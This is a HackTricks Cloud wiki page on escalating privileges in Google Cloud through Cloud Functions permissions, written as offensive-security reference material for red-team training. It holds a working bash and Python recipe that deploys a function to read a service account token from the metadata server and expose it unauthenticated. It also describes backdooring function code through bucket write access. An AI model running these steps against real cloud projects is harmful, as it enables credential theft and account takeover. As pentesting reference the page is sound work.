 # GCP - Cloudfunctions Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## cloudfunctions

More information about Cloud Functions:

{% content-ref url="../gcp-services/gcp-cloud-functions-enum.md" %}
[gcp-cloud-functions-enum.md](../gcp-services/gcp-cloud-functions-enum.md)
{% endcontent-ref %}

### `cloudfunctions.functions.create` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

An attacker with these privileges can **create a new Cloud Function with arbitrary (malicious) code and assign it a Service Account**. Then, leak the Service Account token from the metadata to escalate privileges to it.\
Some privileges to trigger the function might be required.

Exploit scripts for this method can be found [here](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-call.py) and [here](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-setIamPolicy.py) and the prebuilt .zip file can be found [here](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/tree/master/ExploitScripts/CloudFunctions).

### `cloudfunctions.functions.update` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

An attacker with these privileges can **modify the code of a Function and even modify the service account attached** with the goal of exfiltrating the token.

{% hint style="danger" %}
In order to deploy cloud functions you will also need actAs permissions over the default compute service account or over the service account that is used to build the image.
{% endhint %}

Some extra privileges like `.call` permission for version 1 cloudfunctions or the role `role/run.invoker` to trigger the function might be required.

```bash
# Create new code
temp_dir=$(mktemp -d)

cat > $temp_dir/main.py <<EOF
import subprocess

def main(request):
    cmd = "curl -s -f -H 'Metadata-Flavor: Google' 'http://metadata/computeMetadata/v1/instance/service-accounts/default/token'"
    result = subprocess.check_output(cmd, shell=True, text=True)
    return result
EOF

echo "" > $temp_dir/requirements.txt

zip -r $temp_dir/function.zip $temp_dir/main.py $temp_dir/requirements.txt

# Update code
gcloud functions deploy <cloudfunction-name> \
  --runtime python312 \
  --source $temp_dir \
  --entry-point main \
  --service-account <sa>@$PROJECT_ID.iam.gserviceaccount.com \
  --trigger-http \
  --allow-unauthenticated

# Get SA token calling the new function code
gcloud functions call <cloudfunction-name>
```

{% hint style="danger" %}
If you get the error `Permission 'run.services.setIamPolicy' denied on resource...` is because you are using the `--allow-unauthenticated` param and you don't have enough permissions for it.
{% endhint %}

The exploit script for this method can be found [here](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.update.py).

### `cloudfunctions.functions.sourceCodeSet`

With this permission you can get a **signed URL to be able to upload a file to a function bucket (but the code of the function won't be changed, you still need to update it)**

{% code overflow="wrap" %}
```bash
# Generate the URL
curl -X POST https://cloudfunctions.googleapis.com/v2/projects/{project-id}/locations/{location}/functions:generateUploadUrl \
-H "Authorization: Bearer $(gcloud auth application-default print-access-token)" \
-H "Content-Type: application/json" \
-d '{}'
```
{% endcode %}

Not really sure how useful only this permission is from an attackers perspective, but good to know.

### `cloudfunctions.functions.setIamPolicy` , `iam.serviceAccounts.actAs`

Give yourself any of the previous **`.update`** or **`.create`** privileges to escalate.

### `cloudfunctions.functions.update`

Only having **`cloudfunctions`** permissions, without **`iam.serviceAccounts.actAs`** you **won't be able to update the function SO THIS IS NOT A VALID PRIVESC.**

### Read & Write Access over the bucket

If you have read and write access over the bucket you can monitor changes in the code and whenever an **update in the bucket happens you can update the new code with your own code** that the new version of the Cloud Function will be run with the submitted backdoored code.

You can check more about the attack in:

{% content-ref url="gcp-storage-privesc.md" %}
[gcp-storage-privesc.md](gcp-storage-privesc.md)
{% endcontent-ref %}

However, you cannot use this to pre-compromise third party Cloud Functions because if you create the bucket in your account and give it public permissions so the external project can write over it, you get the following error:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" width="304"><figcaption></figcaption></figure>

{% hint style="danger" %}
However, this could be used for DoS attacks.
{% endhint %}

### Read & Write Access over Artifact Registry

When a Cloud Function is created a new docker image is pushed to the Artifact Registry of the project. I tried to modify the image with a new one, and even delete the current image (and the `cache` image) and nothing changed, the cloud function continue working. Therefore, maybe it **might be possible to abuse a Race Condition attack** like with the bucket to change the docker container that will be run but **just modifying the stored image isn't possible to compromise the Cloud Function**.

## References

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
